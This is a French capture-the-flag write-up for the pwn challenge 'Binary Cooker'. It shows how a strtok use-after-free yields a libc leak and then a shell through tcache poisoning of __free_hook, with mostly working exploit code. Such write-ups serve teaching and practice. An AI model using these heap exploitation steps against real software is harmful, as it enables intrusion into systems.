


# pwn - Binary Cooker
## Description
Lorsque le premier argument de strtok est NULL, la fonction continue d'extraire
des tokens de la précédente chaine de caractères.

Voici la documentation de strtok :
> DESCRIPTION
>        The  strtok()  function  breaks  a string into a sequence of zero or
>        more nonempty tokens.  On the first call to strtok(), the string to be
>        parsed should be specified in str.  In each subsequent call that
>        should parse the same string, str must be NULL.

`strtok` stocke donc en interne un pointeur vers le prochain token.

```
// string/strtok.c
char *
strtok (char *s, const char *delim)
{
  static char *olds;
  return __strtok_r (s, delim, &olds);
}
```

Le but du challenge est d'exploiter ce comportement pour obtenir un shell.

## Vulnérabilité
En exploitant le comportement précédent il est possible d'obtenir un
use-after-free avec les appels suivants :
```c
char *s = strdup("abc,def");
strtok(s, ",");
free(s);
strtok(NULL, ","); // UAF
```

Dans le contexte du challenge, ce schéma peut être obtenu de la manière suivante :
- Nouvelle session
- `i` -> "abc,def"
- Split (`s`) : `strtok(s->buf, delim)`
- Reset de la session (`r`) : `free(s->buf)`
- Next token (`n`) : `strtok(NULL, delim)`

En effet, le reset de la session libère toutes les chaines de caractères
présentes dans la session, et il est possible d'appeler `strtok(NULL, DELIM)`
via `next_token`. Il y a donc un use-after-free.

## Exploitation
### Leak libc
Voici les étapes pour obtenir un leak de la libc :



1. Allouer 7 buffers et faire pointer le pointeur interne de strtok (`olds`) dans le chunk #7.
```py
# alloc 7 buffers (#1 - #7)
cmd("i", (b"A" * 7 + b",").ljust(BUF_SIZE, b"A"))
for _ in range(6):
    cmd("p")

# set the current buffer as buffer #7
cmd("P")
# set the strtok's internal pointer (olds) in buffer #7
cmd("s")
```

2. Reset la session pour free tous les chunks.
```py
# free all the chunks
# all the buffers end up in tcache, and the session is put in unsorted bin (as
# tcache 0xa0 has been filled by the buffers)
cmd("r")
```

3. Allouer des chunks de sorte que le prochain reset de session créé un chunk
   dans l'unsorted bin à l'emplacement du buffer #7.
```py
# consume the unsorted chunk
cmd("i", b"B" * 0x37)
cmd("p")

# alloc a new chunk after the new session to avoid it being consolidated with the top chunk
cmd("p")

# fill the 0xa0 tcache
cmd("i", b"B" * BUF_SIZE)
for _ in range(6):
    cmd("p")
```

4. Reset la session. Le chunk de l'unsorted bin contient maintenant des
   pointeurs vers la libc. Trigger la vulnérabilité pour obtenir un leak.
```py
# leak unsorted->bk
cmd("r")
leak = cmd("n")
leak = u64(leak.ljust(8, b"\x00"))

libc.address = leak - 0x1ECBE0
print(f"libc @ {hex(libc.address)}")
```

### Shell
L'obtention d'une primitive d'écriture arbitraire se fait via un tcache
poisoning. Il faut dans un premier temps obtenir un use-after-free sur une
structure de session puis modifier `s->stack_idx` afin de pouvoir modifier la
liste chainée d'un tcache.



1. Allouer 4 chunks de taille 0x20, ce seront les chunks cibles pour le tcache
   poisoning. Allouer 7 chunks de taille 0xa0 et faire pointer `olds` sur le
   dernier chunk de 0xa0. Ces chunks vont remplir le tcache de taille 0xa0 et
   l'ancienne session va tomber dans l'unsorted bin, l'objectif est de faire en
   sorte que la prochaine session soit allouée par
   dessus un buffer.
```py
# alloc some 0x20 chunks
r.sendlineafter(b"initial buffer: ", b"A")
for _ in range(3):
    cmd("p")

# alloc 7 chunks of size 0xa0 to fill tcache
# when free'd, the first session will ends up unsorted
# so the next session will be allocated from the tcache bin
cmd("i", (b"B" * 0x8F + b",").ljust(BUF_SIZE, b"B"))
for _ in range(6):
    cmd("p")

cmd("P")
cmd("s")
```

2. Reset la session.
```py
cmd("r")
```

3. Réécrire `s->stack_idx` par un index négatif pour faire pointer la stack de
   la session vers un chunk déjà libéré. Il est ensuite possible de faire un
   tcache poisoning pour obtenir une primitive d'écriture arbitraire.
```py
# trigger the vuln
cmd("n")
# we now have s->buf = &s->stack_idx

# update stack_idx
# corrupt tcache 0x20 linked-list
cmd("i", p64(-126, sign="signed") + b"\x01")

cmd("P")

target = libc.sym["__free_hook"] - 8
cmd("i", p64(target))

# overwrite __free_hook
cmd("r")
cmd("i", b"/bin/sh;" + p64(libc.sym["system"]))
cmd("p")
cmd("p")
r.sendlineafter(b"\n> ", b"r")

r.sendline(b"cat flag.txt")
```
